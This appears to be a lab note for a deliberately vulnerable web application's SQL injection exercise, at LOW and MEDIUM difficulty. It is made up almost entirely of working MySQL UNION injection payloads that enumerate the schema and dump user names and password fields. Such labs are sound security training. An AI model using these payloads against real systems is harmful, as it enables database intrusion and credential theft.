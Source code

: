 LOW

`'` in the box shows a MySQL error.

Use [[SQL Payload]] to find credentials dumped.

From here, we need to close out all the characters with `'` as seen below:

`%' or '0'='0' `

Find how many columns exist:
```SQL - target
%' or '0'='0' union select null, null-- -
```

Dump database version:
```SQL - target
%' or '0'='0' union select null, version()-- -
```

Dump database user:
```SQL - target
%' or '0'='0' union select null, user()-- -
```

Dump database name:
```SQL - target
%' or '0'='0' union select null, database()-- -
```

Display all tables in information_schema:
```SQL - target
%' or '0'='0' union select null, table_name from information_schema.tables-- -
```

Display all users tables in information_schema:
```SQL - target
%' or '0'='0' union select null, table_name from information_schema.tables where table_name like 'user%'#
```

Display all the columns fields in the information_schema:
```SQL - target
%' or '0'='0' union select null, concat(table_name,0x0a,column_name) from information_schema.columns where table_name = 'users' #
```

Display column field contents:
```SQL - target
%' or '0'='0' union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #
```

MEDIUM
`'` in the box shows a MySQL error.

Use [[SQL Payload]] to find credentials dumped.

Find how many columns exist:
```SQL - target
1 or 0=0 union select null, null-- -
```

Dump database version:
```SQL - target
1 or 0=0 union select null, version()-- -
```

Dump database user:
```SQL - target
1 or 0=0 union select null, user()-- -
```

Dump database name:
```SQL - target
1 or 0=0 union select null, database()-- -
```

Display all tables in information_schema:
```SQL - target
1 or 0=0 union select null, table_name from information_schema.tables-- -
```

Display all users tables in information_schema:
```SQL - target
1 or 0=0 union select null, table_name from information_schema.tables where table_name like 'user%'#
```

Display all the columns fields in the information_schema:
```SQL - target
1 or 0=0 union select null, concat(table_name,0x0a,column_name) from information_schema.columns where table_name = 'users' #
```

Display column field contents:
```SQL - target
1 or 0=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #
```

